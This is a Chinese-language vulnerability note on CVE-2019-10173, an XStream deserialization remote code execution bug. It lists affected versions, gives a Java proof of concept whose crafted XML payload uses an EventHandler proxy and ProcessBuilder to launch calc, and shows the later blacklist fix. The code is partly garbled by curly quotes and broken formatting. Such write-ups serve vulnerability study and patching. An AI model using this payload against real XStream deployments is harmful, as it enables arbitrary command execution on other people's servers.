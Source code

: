 ```yaml
---
title: （CVE-2019-10173）Xstream 远程代码执行漏洞
id: zhfly3286
---
```


# （CVE-2019-10173）Xstream 远程代码执行漏洞

## 一、漏洞简介

Xstream 1.4.10版本存在反序列化漏洞CVE-2013-7285补丁绕过。

## 二、漏洞影响

XStream <= 1.4.6

XStream = 1.4.10

## 三、复现过程

### poc

```
package com.bigo;

import com.thoughtworks.xstream.XStream;

import java.beans.EventHandler;

import java.io.IOException;

import java.util.Set;

import java.util.TreeSet;

/**

*   Created by cfchi on 2019/7/26.

    */

    public class Main {

    public static String expGen(){

    XStream xstream = new XStream();

    Set<Comparable> set = new TreeSet<Comparable>();

    set.add(“foo”);

    set.add(EventHandler.create(Comparable.class, new ProcessBuilder(“calc”), “start”));

    String payload = xstream.toXML(set);

    System.out.println(payload);

    return payload;

    }

    public static void main(String[] args) throws IOException {

    expGen();

    XStream xStream = new XStream();

    String payload = “<sorted-set>\n” +

    "    <string>foo</string>\n" +

    "    <dynamic-proxy>\n" +

    "    <interface>java.lang.Comparable</interface>\n" +

    "        <handler class=“java.beans.EventHandler”>\n" +

    "            <target class=“java.lang.ProcessBuilder”>\n" +

    "                <command>\n" +

    "                    <string>cmd.exe</string>\n" +

    "                    <string>/c</string>\n" +

    "                    <string>calc</string>\n" +

    "                </command>\n" +

    "            </target>\n" +

    "     <action>start</action>"+

    "        </handler>\n" +

    "    </dynamic-proxy>\n" +

    “</sorted-set>\n”;

    xStream.fromXML(payload);

    }

    } 
```

### 1.4.7版本白名单

![image](../img/87ce7d153d489d43d499fc9a8f100e07.png)

### 1.4.10版本，黑名单未开启

![image](../img/6140e2f2a630e0354e98b97c2f0f80c8.png)

### 1.4.11版本，黑名单开启

#### 黑名单

```
private class InternalBlackList implements Converter {
    private InternalBlackList() {
    }

```
public boolean canConvert(Class type) {
    return type == Void.TYPE || type == Void.class || !XStream.this.securityInitialized &amp;&amp; type != null &amp;&amp; (type.getName().equals("java.beans.EventHandler") || type.getName().endsWith("$LazyIterator") || type.getName().startsWith("javax.crypto."));
}

public void marshal(Object source, HierarchicalStreamWriter writer, MarshallingContext context) {
    throw new ConversionException("Security alert. Marshalling rejected.");
}

public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
    throw new ConversionException("Security alert. Unmarshalling rejected.");
} 
``` `}` 
```

![image](../img/63904bf8ee8bba9301827b25a3c83195.png)

## 参考链接

> http://www.polaris-lab.com/index.php/archives/658/